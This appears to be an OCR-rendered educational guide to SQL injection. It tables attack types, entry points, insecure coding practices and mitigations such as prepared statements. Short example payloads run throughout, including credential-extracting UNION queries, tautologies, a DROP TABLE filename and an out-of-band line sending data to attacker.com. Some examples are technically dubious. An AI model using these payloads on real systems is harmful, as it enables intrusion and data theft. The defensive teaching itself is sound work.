 | **Attack Type**          | **Description**                                                                 | **Example Payload**                                                                 |  
|--------------------------|---------------------------------------------------------------------------------|------------------------------------------------------------------------------------|  
| **Error-Based SQLi**      | Leverages verbose error messages to extract database schema or data.            | `UNION SELECT NULL, version()--` (retrieves database version via error message).   |  
| **Union-Based SQLi**      | Combines malicious `SELECT` statements with legitimate queries using `UNION`.   | `UNION SELECT username, password FROM users--` (exfiltrates user credentials).   |  
| **Blind SQLi**            | Infers data through indirect responses (no direct data leakage).                | **Boolean-Based**: `AND 1=1` vs. `AND 1=0` to test conditions.                     |  
|                           |                                                                                 | **Time-Based**: `AND SLEEP(5)--` (delays response to confirm vulnerability).       |  
| **Out-of-Band (OOB) SQLi**| Uses external channels (DNS/HTTP) to exfiltrate data when direct methods fail.  | `SELECT LOAD_FILE('http://attacker.com/log?data='||(SELECT user)--` (sends data via HTTP). |  

---

### **Common Attack Entry Points**  
Attackers target input fields where user-controlled data interacts with SQL queries:  

| **Entry Point**          | **Example Scenario**                                                                 |  
|--------------------------|-------------------------------------------------------------------------------------|  
| **User Input Fields**     | Login forms, search bars, or comment sections (e.g., `username=' OR '1'='1`).       |  
| **URL Parameters**        | GET requests with unsanitized parameters (e.g., `?id=1' OR 1=1--`).                |  
| **API Endpoints**         | Malicious JSON payloads in RESTful APIs (e.g., `{"id": "1' UNION SELECT ..."}).    |  
| **Cookie Headers**        | Manipulated cookies containing SQL snippets (e.g., `PHPSESSID=1' OR 1=1--`).        |  
| **File Uploads**          | Exploiting metadata or filenames with SQL code (e.g., `image.jpg; DROP TABLE`).    |  

---

### **Insecure Coding Practices Enabling SQLi**  
The following practices create vulnerabilities that attackers exploit:  

| **Practice**                          | **Example**                                                                 |  
|---------------------------------------|-----------------------------------------------------------------------------|  
| **Dynamic SQL Construction**          | `String query = "SELECT * FROM users WHERE username = '" + userInput + "';"` |  
| **Lack of Input Validation/Sanitization** | Accepting unescaped special characters like `'`, `--`, or `;`.           |  
| **Verbose Error Messages**            | Exposing table names or SQL syntax errors to attackers.                     |  
| **Overly Permissive Database Permissions** | Web applications running with administrative privileges (e.g., `root`). |  
| **Outdated Software/Frameworks**      | Legacy systems using deprecated libraries (e.g., PHP’s `mysql_*` functions). |  
| **Stored Procedures Without Safeguards** | Allowing dynamic SQL execution within stored procedures.                |  

---

### **Mitigation Strategies**  
To prevent SQLi, organizations must adopt:  
1. **Parameterized Queries/Prepared Statements**:  
   ```java  
   PreparedStatement pstmt = connection.prepareStatement("SELECT * FROM users WHERE username = ?");  
   pstmt.setString(1, userInput); // Safe parameter binding  
   ```  
2. **Input Validation and Sanitization**: Restrict input formats (e.g., numeric IDs, regex patterns).  
3. **Least Privilege Principle**: Grant minimal database permissions to web applications.  
4. **Web Application Firewalls (WAFs)**: Deploy rules to block SQLi payloads (e.g., `UNION`, `SLEEP`).  
5. **Error Message Hardening**: Disable verbose error reporting in production environments.  
